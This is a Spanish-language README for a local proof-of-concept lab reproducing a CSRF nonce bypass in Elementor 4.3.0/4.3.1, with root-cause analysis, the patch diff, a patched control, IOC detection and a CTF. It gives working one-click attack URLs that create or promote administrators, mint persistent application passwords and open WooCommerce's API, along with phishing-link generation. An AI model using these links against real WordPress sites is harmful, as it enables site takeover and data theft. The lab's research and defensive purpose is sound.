









# POC-ELEMENTOR-CSRF — Laboratorio pedagógico del bypass del nonce REST en Elementor 4.3.0/4.3.1

Laboratorio autocontenido que **reproduce con ejecución real** la
vulnerabilidad publicada el 25-09-2026: un CSRF en el módulo *Editor Events*
de Elementor 4.3.0/4.3.1 que **desactiva la única defensa CSRF del REST API
de WordPress** cuando el URI de la petición contiene la subcadena
`elementor/v1/events/`. Resultado en una instalación por defecto: **un clic
de un admin crea otra cuenta de administrador** controlada por el atacante.
Sin JavaScript. Sin formulario. Sin web del atacante. CVSS 8.8, hasta ~2
millones de sitios, reportada por **Saggre** vía Patchstack y corregida en
la 4.3.2.

> Réplica verificable de un hallazgo público, con control negativo de una
> sola variable (4.3.1 víctima vs 4.3.2 parcheada, todo lo demás idéntico).
> Educativo y defensivo. **Solo para ejecutarse en local** — ver
> [Uso responsable](#uso-responsable).

**El ataque en 10 segundos** — navegador real, correo desde otro origen,
un clic, y el REST API responde `201 Created` con un administrador nuevo:


### Cómo leer este repo

| Si tienes… | Empieza por… |
|---|---|
| 2 minutos | El GIF de arriba + la [landing didáctica](docs/index.html) (`make landing`) |
| 15 minutos | [Quickstart](#quickstart): cinco comandos y ves el 401→201 en tu máquina |
| Una tarde | [El bug, paso a paso](#el-bug-paso-a-paso) + [Aportaciones propias](#aportaciones-propias--más-allá-del-advisory) + el [CTF](#modo-ctf--la-subcadena-mágica) |
| Que auditar un sitio | [Defensa: mitigación e IOCs](#mitigación-y-detección-blue-team) + `make detectar-iocs` |

Nada de lo que aquí se explica requiere conocimientos previos de Elementor:
solo WordPress a nivel usuario y ganas de leer diffs.

---

## Quickstart

```bash
make lab             # víctima: WordPress + Elementor 4.3.1 en http://localhost:8085
make fingerprint     # FASE 1: reconocimiento pasivo (versión, módulo activo)
make link            # FASE 2: genera el enlace malicioso + correo de phishing simulado
make click           # FASE 3: el clic del admin -> HTTP 201, admin creado (+negativo %2F)
make verify          # FASE 4: la puerta trasera es un admin real
make aportaciones    # FASE 6 (propia): puerta silenciosa + cuenta dormida
make hardening-demo  # FASE 7 (propia): el bypass anula el hardening anti-CSRF
make mitigacion-demo # FASE 8: verifica la paliativa (experimento inactive) A/B/C
make blast-radius    # FASE 9 (propia): plugins por GET + WooCommerce vs el bypass
make demo-navegador  # demo con NAVEGADOR REAL (CDP): login -> correo -> clic -> 201
make control         # control negativo: Elementor 4.3.2 en http://localhost:8086
make control-click   # el MISMO enlace contra 4.3.2 -> HTTP 401 (parche)
make demo-flip       # FASE 5: diff en vivo del root cause víctima vs control
make fuzz-subcadena  # matriz de 8 variantes de la subcadena mágica (fuzzer)
make detectar-iocs   # detector de IOCs sobre log de ejemplo (blue team)
make ctf             # CTF «La Subcadena Mágica»: reto :8087 + bot víctima :8089
make full-demo       # todo el encadenado desde cero
make capturas        # regenera la galería PNG (docs/img/)
make landing         # sirve la landing didáctica en :8095
make clean           # destruye todo (incluye el CTF)
```

**Credenciales de la puerta trasera configurables** (usuario, contraseña y
email arbitrarios — el encoding de la query lo maneja el lab, admite
espacios, `&`, `@`…):

```bash
make click USUARIO=sombra CLAVE='Mi P@ss&2026 !x' EMAIL=shadow@lab.test
make verify USUARIO=sombra CLAVE='Mi P@ss&2026 !x'    # login real como sombra
make reset  USUARIO=sombra                            # borrado selectivo
# equivalentes por variable de entorno: POC_USER / POC_PASS / POC_MAIL
# y en el CLI unificado:
python3 cli/poc.py attack --acepta-responsabilidad \
    --username sombra --password 'Mi P@ss&2026!' --email sombra@lab.test
python3 cli/poc.py craft --username sombra --email sombra@lab.test   # solo el enlace
```

Requisitos: Docker, docker compose, curl, python3, make.

Credenciales del laboratorio: usuario `admin` / contraseña `admin` en ambos
sitios (es un lab; el admin es la víctima).

## Arquitectura

| Servicio | Puerto | Stack | Rol |
|---|---|---|---|
| `victima` | **http://localhost:8085** | WP 7.1.2 + PHP 8.3 + Elementor **4.3.1** | Objetivo vulnerable |
| `control` | **http://localhost:8086** | WP 7.1.2 + PHP 8.3 + Elementor **4.3.2** | Control negativo (profile `control`) |
| `db` / `db-control` | interno | MySQL 8.0 | Una por sitio |

Misma imagen base para víctima y control: **la única variable del
experimento es la versión de Elementor** (`ARG ELEMENTOR_VERSION` en
`docker/wordpress/Dockerfile`). El entrypoint instala WP + Elementor desde
cero en el primer arranque — instalación limpia, que es exactamente la
condición de exposición real: el experimento oculto `editor_events` queda
**activo por defecto** en sitios instalados con Elementor ≥ 3.32.0.

---

## El bug, paso a paso

### Paso 0 — Cómo WordPress defiende el REST API de CSRF

En el REST API autenticado por cookies, el nonce (`wp_rest`, cabecera
`X-WP-Nonce` o parámetro `_wpnonce`) es **la única defensa CSRF**. La válida
`rest_cookie_check_errors()` (core, enganchada a `rest_authentication_errors`
con prioridad 100): sin nonce válido, degrada al usuario a anónimo
(`wp_set_current_user( 0 )`). Con cookies pero sin nonce **no eres nadie**:
por eso un `<a href>` cross-site no puede escribir en REST.

### Paso 1 — Qué añadió Elementor 4.3.0

El módulo *Editor Events* (proxy de telemetría hacia Mixpanel) quiso
evitar el nonce para su propia ruta y registró, en
`core/common/modules/events-manager/rest-api/events-proxy-rest-api.php`:

```php
add_filter( 'rest_authentication_errors', [ $this, 'bypass_nonce_check_for_own_routes' ], 0 ); // ¡prioridad 0!

public function bypass_nonce_check_for_own_routes( $result ) {
    if ( $this->is_own_route_request() ) {
        return true;                    // "no hace falta validar nada"
    }
    return $result;
}

private function is_own_route_request(): bool {
    $request_uri = Utils::get_super_global_value( $_SERVER, 'REQUEST_URI' ) ?? '';
    return false !== strpos( $request_uri, 'elementor/v1/events/' );   // subcadena, SIN anclar
}
```

### Paso 2 — El error de temporización

El filtro corre **antes del dispatch**: WordPress aún no ha resuelto la ruta,
así que lo único que hay que inspeccionar es el **URI crudo** — path **+ query
string**. Y la query string la controla el atacante. Cualquier URL que
contenga `elementor/v1/events/` *en cualquier posición* hace que Elementor
devuelva `true` con prioridad 0.

### Paso 3 — La caída en cadena

1. El navegador de la víctima (admin con sesión) hace GET del enlace
   malicioso → envía sus cookies (SameSite=Lax permite la navegación GET).
2. `determine_current_user` resuelve a la víctima desde las cookies.
3. `rest_authentication_errors`: el filtro de Elementor (prioridad 0)
   devuelve `true` porque el URI crudo contiene la subcadena.
4. `rest_cookie_check_errors()` (prioridad 100) ve `$result` no vacío y
   **retorna antes de validar el nonce** — nunca degrada a anónimo.
5. La petición navega autenticada como admin **sin nonce**. Todo endpoint
   REST cuyo `permission_callback` solo mire `current_user_can()` — del
   core **o de cualquier plugin** — queda expuesto a CSRF.

### Paso 4 — El arma: un enlace

```
http://VICTIMA/wp-json/wp/v2/users?_method=POST
    &username=csrfadmin&email=csrfadmin@lab.test&password=csrfadmin-PoC-2026
    &roles[]=administrator&x=elementor/v1/events/
```

Tres piezas en un solo GET:

| Pieza | Función |
|---|---|
| `x=elementor/v1/events/` | Subcadena mágica que apaga el nonce (el nombre del parámetro da igual) |
| `_method=POST` | Override de verbo del REST Server de WP: el GET se ejecuta como POST |
| `username/email/password/roles[]` | Parámetros que el controlador de usuarios lee de la query |

Un `<a href>` en un correo, un chat o un comentario. **Un clic.** El POC del
lab lo simula con curl + cookie jar (equivalente HTTP exacto) y además genera
`exploit/correo-phishing.html` para repetirlo con navegador real.

### Paso 5 — El parche (4.3.2)

```diff
 private function is_own_route_request(): bool {
-    $request_uri = Utils::get_super_global_value( $_SERVER, 'REQUEST_URI' ) ?? '';
+    global $wp;
-    return false !== strpos( $request_uri, 'elementor/v1/events/' );
+    $route = $wp->query_vars['rest_route'] ?? null;
+    if ( ! is_string( $route ) ) { return false; }
+    return 0 === strpos( $route, '/elementor/v1/events/' );
 }
```

Deja de mirar el URI crudo (que arrastra la query del atacante) y pasa a la
ruta REST **ya resuelta por el router**, con comparación **anclada** al
principio. La subcadena mágica ya no puede viajar en la URL. Análisis
completo (incluido el cambio de privacidad del header `Authorization`) en
[`research/PARCHE.md`](research/PARCHE.md).

---

## Aportaciones propias — más allá del advisory

Detalle completo con comandos en [`research/HALLAZGOS.md`](research/HALLAZGOS.md);
todo verificado contra el lab y reproducible con `make aportaciones` /
`make hardening-demo`. El advisory documenta el vector canónico (crear un
admin con un clic); estas son las ampliaciones de este repo:

### §1 «Puerta silenciosa» — application password en la cuenta del admin

El mismo clic crea un *Application Password* **sobre la cuenta de la propia
víctima** y la respuesta del GET devuelve la contraseña **en claro**. Desde
entonces el atacante habla REST con `Authorization: Basic`, que **jamás
necesita nonce**: la sesión CSRF se convierte en credencial permanente.
Persistencia **sin crear usuarios** — borrar «usuarios nuevos» no la elimina;
hay que revocar Application Passwords. Requisito: HTTPS (producción por
defecto; el lab lo simula con `WP_ENVIRONMENT_TYPE=local`).

### §2 «Escalada de cuenta dormida» — subscriber → administrator

Si el atacante ya tiene una cuenta de baja confianza (el subscriber típico
del registro público), un clic del admin promueve **esa** cuenta
(`GET /wp-json/wp/v2/users/{id}?_method=POST&roles[]=administrator&x=elementor/v1/events/`).
Cero altas de usuario: las alertas de «usuarios creados recientemente» no
disparan.

### §3 El bypass también anula el hardening anti-CSRF

Con un mu-plugin que implementa el patrón canónico de los plugins de
seguridad (denegar cookies-sin-nonce en `rest_authentication_errors`):

```
[A] ataque SIN subcadena  -> 401 rest_cookie_disabled  ✔ el hardening funciona
[B] ataque CON subcadena  -> 201 admin creado          ✘ Elementor (prioridad 0)
                               silenció al hardening (prioridad 10)
```

La defensa en profundidad diseñada contra esta clase exacta de ataque queda
neutralizada por el propio bug: **hasta actualizar, «bloquear REST por
cookies» no protege** contra este CVE.

### §5 La API-key-wall de WOOCOMMERCE también cae (mayor alcance práctico)

WooCommerce bloquea su API `wc/v3` a la autenticación por cookies (exige sus
propias API keys) usando el mismo filtro que el bug silencia. Verificado con
WooCommerce 11.1.2 sobre la víctima (`make blast-radius`):

```
[B2] GET /wc/v3/system_status  (cookies de admin, sin subcadena) -> 401
[B3] GET /wc/v3/system_status?x=elementor/v1/events/             -> 200
```

**En una tienda con Elementor 4.3.0/4.3.1 + WooCommerce, un clic abre al
REST completo de la tienda** (pedidos, clientes, cupones). Y el endpoint de
plugins del core cae igual: **dos enlaces instalan y activan cualquier
plugin del directorio wp.org** (demostrado con hello-dolly: 201 + 200 +
estado `active`).

### También verificado en esta casa

- **§6 La paliativa, verificada** (`make mitigacion-demo`): experimento
  `inactive` → el mismo clic pasa de 201 a 401; A/B/C completo con
  restauración.
- **§7 SameSite=Lax medido con navegador real** (`make demo-navegador`):
  Chrome headless vía CDP, correo en `file://` (otro origen), clic → 201.
  Capturas + GIF en `docs/img/`.
- **§8 Fuzzer de la subcadena** (`make fuzz-subcadena`): 8/8 variantes
  ajustadas a la predicción (literal/anidada/prefijada disparan; `%2F`,
  `%252F`, mayúsculas, sin barra final no).
- **Detector de IOCs** (`make detectar-iocs`): clasifica un access log real
  (4 CRIT / 2 MED / 1 INFO sobre el log de ejemplo) — los IOCs del README,
  ejecutables.

### Detalles forenses y negativos útiles

- `%2F` desactiva la subcadena mágica (compara el URI crudo, no decodificado).
- La subcadena anidada en otro parámetro (`q=foo-elementor/v1/events/-bar`)
  también dispara el bypass en rutas de lectura (`/wp/v2/settings` 401→200).
- Blast radius: **154 endpoints de escritura** en 231 rutas REST de una
  instalación base, todos objetivo CSRF potencial.
- WP no fija `SameSite` en sus cookies; el Lax por defecto del navegador
  permite exactamente la navegación de nivel superior de un `<a href>` (por
  eso `` subrecurso no serviría).
- Negativo: `/wp/v2/settings` **no** expone `users_can_register` ni
  `default_role` — la vía «un clic activa registro libre con rol admin» no
  existe por REST.
- Negativo: ningún bypass del parche; con 4.3.2 todos los vectores dan 401.

## Galería de evidencia

Capturas reales del laboratorio (regenerables con `make capturas`), también
en la [landing](docs/index.html). El par clave del experimento:

| Víctima 4.3.1 — la puerta trasera existe | Control 4.3.2 — el mismo ataque muere |
|---|---|
|  |  |
| *`/author/csrfadmin/` → HTTP 200: el admin creado por el clic es público* | *`/author/csrfadmin/` → HTTP 404: con el parche, el usuario nunca llegó a crearse* |

El «correo» que recibe la víctima — un solo `<a>`, sin JS ni formulario —
y las fases en terminal:

| El phishing (un enlace) | FASE 3 · el clic |
|---|---|
|  |  |

| FASE 6 · vectores propios | FASE 9 · WooCommerce |
|---|---|
|  |  |

| FASE 7 · hardening neutralizado | FASE 5 · root cause en vivo |
|---|---|
|  |  |

El bot víctima del CTF: 

---

## Modo CTF — «La Subcadena Mágica»

Instancia de reto aislada (`profile ctf`) para practicar o enseñar: sitio
WordPress+Elementor 4.3.1 en **:8087 con el hardening anti-CSRF activo** y un
**bot víctima** en **:8089** que simula al admin de pruebas (`editor-demo`):
le pegas una URL y hace clic con SU sesión. 5 flags progresivas que
obligan a redescubrir todos los vectores del lab:

```bash
make ctf                                    # reto :8087 + bot :8089
# resolver… y verificar:
./ctf/verificar.sh 2 'CTF{...}'             # (o make ctf-verificar N=2 VAL='CTF{...}')
make ctf-clean
```

| Flag | Reto | Vector que enseña |
|---|---|---|
| 1 | Fingerprint sin credenciales | readme.txt del plugin |
| 2 | Crea TU admin (nick y contraseña a tu gusto) y lee el post privado | vector canónico + §3 (el hardening activo te obliga a descubrirlo) |
| 3 | Filtra el email del admin por REST | subcadena anidada en otro parámetro |
| 4 | Lee la nota del becario «huevo» | enumeración con `context=edit` |
| 5 | Credencial permanente sin crear usuarios | §1 puerta silenciosa (verificación conductual: Basic → 200) |

Reglas, pistas progresivas y solución en [`ctf/README.md`](ctf/README.md)
(spilers en [`ctf/SOLUCION.md`](ctf/SOLUCION.md)). El bot solo visita el
host del reto (guard anti-SSRF), abre sesión nueva por clic y nunca revela
sus cookies.

---

## Mapa afirmación → verificación

Cada afirmación del writeup, con su comando y su salida esperada
(evidencia real capturada en [`research/RESULTADOS.md`](research/RESULTADOS.md)):

| # | Afirmación | Verificación | Esperado |
|---|---|---|---|
| 1 | WP sano: cookie sin nonce no crea usuarios | `make click` (bloque «SIN subcadena») | HTTP 401 `rest_cannot_create_user` |
| 2 | La subcadena en la query apaga el nonce | `make click` (bloque «EL CLIC») | HTTP **201**, `roles:["administrator"]` |
| 3 | El usuario creado es admin de verdad | `make verify` | WP-CLI `roles administrator` + `/wp-admin/users.php` 200 |
| 4 | El bypass vale para cualquier ruta REST | `curl` a `/wp/v2/settings?q=foo-elementor/v1/events/-bar` (cookies admin) | 401 → **200** (filtra email) |
| 5 | Ni siquiera hace falta un parámetro propio | ídem, subcadena anidada en `q=...` | 200 |
| 6 | El parche lo neutraliza | `make control-click` (4.3.2) | HTTP **401** con el mismo enlace |
| 7 | 4.3.0 y 4.3.1 son el mismo código vulnerable | `diff` de los zips oficiales | idénticos byte a byte |
| 8 | Exposición por defecto en instalaciones limpias | `docker compose logs victima \| grep experimento` | vacío ⇒ activo (default sitio nuevo) |
| 9 | El bug vive en un solo archivo/función | `make demo-flip` | diff víctima vs control en vivo |
| 10 | §1: app-password por GET (persistencia sin usuarios) | `make aportaciones` | **201** con contraseña en claro; Basic auth → 200 admin |
| 11 | §2: subscriber promovido con un GET | `make aportaciones` | WP-CLI: `subscriber` → `administrator` |
| 12 | §3: hardening anti-CSRF neutralizado | `make hardening-demo` | [A] 401 bloqueado → [B] **201** atraviesa |
| 13 | La puerta trasera es pública | `curl -o /dev/null -w '%{http_code}' :8085/author/csrfadmin/` | víctima 200 vs control 404 |
